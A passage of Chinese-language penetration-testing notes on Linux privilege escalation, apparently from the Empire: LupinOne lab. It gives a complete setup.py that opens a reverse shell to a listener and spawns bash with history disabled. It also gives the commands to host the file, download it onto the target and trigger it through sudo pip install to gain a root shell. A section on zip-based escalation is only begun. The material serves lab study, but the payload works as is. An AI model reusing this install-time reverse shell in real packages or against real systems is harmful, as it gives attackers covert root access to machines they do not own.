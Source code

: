 **方法二**<br />本地启动监听
```
nc -tvlp 9999
```
![](_img\14-归类总结/1671528059147-bd1b5298-2c1f-4a87-8bdc-001b1c067020.png)

编写提权脚本setup.py
```
from setuptools import setup   #加入

def con():
	import socket, time,pty, os
	host='192.168.1.3'
	port=9999
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.settimeout(10)
	s.connect((host,port))
	os.dup2(s.fileno(),0)
	os.dup2(s.fileno(),1)
	os.dup2(s.fileno(),2)
	os.putenv("HISTFILE",'/dev/null')
	pty.spawn("/bin/bash")
	s.close()
con()

setup(name="hahahaha", version="1.0")  #加入
```

将setup.py上传到目标机
```
python2 -m SimpleHTTPServer 7777
```
![image.png](_img\14-归类总结/1671527940830-2bf27237-80e6-425d-a5d4-09be4c800719.png)
```
wget http://192.168.1.3:7777/setup.py
```
![image.png](_img\14-归类总结/1671527984893-2b03e4bc-e466-4ba5-a062-18d5ea57d325.png)

在靶机上执行
```
sudo /usr/bin/pip install . --upgrade --force-reinstall
```

成功反弹shell
![image.png](_img\14-归类总结/1671527667637-dd81ec67-7d15-4b1c-a803-e4b17e793b80.png)

应用参考链接：[Empire: LupinOne](https://www.yuque.com/xmtxsec/network_security/gzpcg65xp5si10tl)


## 10.4、ZIP提权
zip命令被分配了root权限<br />![](_img\14-归类总结/1671608451230-9ae50937-adb3-47d5-9423-1a6af913ceba.jpeg)

可以发现 sarang 用户可以以 root 用户身份权限来运行 zip 命令，那么我们就可以通过 ZIP 来进行提权
